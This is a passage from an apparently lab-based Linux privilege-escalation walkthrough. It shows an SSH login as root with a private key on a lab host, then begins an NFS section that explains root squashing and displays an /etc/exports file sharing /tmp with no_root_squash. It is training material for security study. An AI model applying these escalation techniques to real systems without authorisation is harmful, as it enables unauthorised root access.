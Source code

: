     ```bash
    ┌──(kali㉿kali)-[~]
    └─$ ssh -i root_key root@10.10.225.64
    Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
    root@debian:~#
    ```

## NFS
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

- Check the NFS share configuration on the Debian VM:

    ```bash
    user@debian:~$ cat /etc/exports
    # /etc/exports: the access control list for filesystems which may be exported
    #               to NFS clients.  See exports(5).
    #
    # Example for NFSv2 and NFSv3:
    # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
    #
    # Example for NFSv4:
    # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
    # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
    #

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

    #/tmp *(rw,sync,insecure,no_subtree_check)
    ```
